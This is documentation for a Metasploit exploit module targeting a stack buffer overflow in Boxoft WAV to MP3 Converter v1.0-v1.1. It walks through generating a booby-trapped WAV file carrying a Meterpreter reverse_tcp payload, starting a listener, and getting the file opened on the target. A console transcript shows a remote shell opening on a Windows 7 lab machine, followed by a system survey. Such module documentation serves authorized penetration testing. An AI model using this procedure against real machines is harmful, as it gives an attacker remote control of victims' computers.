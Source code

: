 
## Vulnerable Application

  This module exploits a stack-based buffer overflow in Boxoft WAV to MP3 Converter v1.0-v1.1. 

## Verification Steps

   1.  Install application on the target machine
   2.  Start msfconsole
   3.  Do: `use [exploit/multi/handler]`
   4.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   5.  Do: `set LHOST [IP]`
   6.  Do: `run`
   7.  Do: `use [exploit/windows/fileformat/boxoft_wav_to_mp3]`
   8.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   9.  Do: `set LHOST [IP]`
   10. Do: `run`
   11. Copy the generated file to the target machine
   12. Open Boxoft WAV to MP3 Converter
   13. Select `Next` at the bottom
   14. Select `Add`
   15. Browse to the file and select it
   16. Click `Convert to MP3`

   You should get a shell.

## Options

  **FILENAME**

  The filename that the shellcode gets written to. Setting a filename is not required, as there is a default name already set.

## Scenarios

### Tested on Windows 7 x86


  Generate File

  ```
  msf5 > use exploit/windows/fileformat/boxoft_wav_to_mp3 
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > run

  [+] music.wav stored at /Users/space/.msf4/local/music.wav

  ```
  Set up Handler

  ```
  msf5 > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.138
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.138:49178) at 2018-06-29 14:41:11 -0500

  meterpreter > sysinfo
  Computer        : WIN7-LAB
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows

  ```
